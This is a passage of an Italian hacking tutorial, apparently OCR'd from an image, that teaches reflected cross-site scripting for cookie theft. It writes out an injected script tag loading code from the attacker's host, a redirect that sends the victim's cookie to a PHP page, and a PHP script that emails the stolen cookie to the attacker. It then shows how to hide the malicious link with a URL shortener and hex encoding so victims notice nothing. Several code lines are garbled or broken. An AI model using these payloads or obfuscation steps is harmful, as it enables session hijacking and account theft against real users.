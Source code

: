 "><script src="http://www.nostrosito.com/cookiescript.js"></script>

All'interno del file cookiescript.js ci scriveremo il codice che passa il Cookie ad una

pagina php:

<script>location.href="http://nostrosito.com/cookie.php?cookie=</script>

Il file cookie.php invece conterrÃ  il codice php che si occupa di farci recapitare il

cookie:

<? mail("nostra@mail.com","Ecco il cookie rubato",$_GET['cookie']; ?>

Uppato il tutto l'url sarÃ  all'incirca:

http://www.caiotizio.it/default.asp?rif=1&tiporicerca=2&strRicerca1="><script

src="http://www.nostrosito.com/cookiescript.js"></script>


Code:
[+]Offuscamento dell'url

Ora dobbiamo occuparci di come nascondere l'url sopra descritta in modo tale che un utente

normale non si accorga di nulla (molte persone non si accorgono neppure di un link con

all'interno del javascript code ben in vista,comunque noi facciamo le cose per bene)

Abbiamo diverse opzioni:

1#-- P0ssiamo nascondere l'url attraverso alcuni servizi quali tinyurl(www.tinyurl.com),che

ci permette di rendere un qualsiasi indirizzo web qualcosa del tipo:

http://tinyurl.com/2rery1


2#-- Possiamo convertire l'intera url in hex:

http://www.caiotizio.it/default.asp?rif=1&tiporicerca=2&strRicerca1=223e3c736372697074207372

633d22687474703a2f2f7777772e6e6f7374726f7369746f2e636f6d2f636f6f6b69657363726970 742e6a73223e

3c2f7363726970743e

In questo modo sembrerÃ  un normalissimo link.

Se L'utente aprirÃ  il link e tutto va a bu0n fine vedremo nella nostra casella postale i

c00kie della vittima in questi0ne.







Code:
[+]XSS Non Sfruttabili

Alcuni siti web hanno avuto almeno la furbizia di filtrare le richieste HTTP POST ed HTTP

GET in modo da non consentire redirect e quindi furto di Cookie.
PerÃ² se riusciamo comunque ad eseguire del codice esterno, possiamo tuttavia creare una
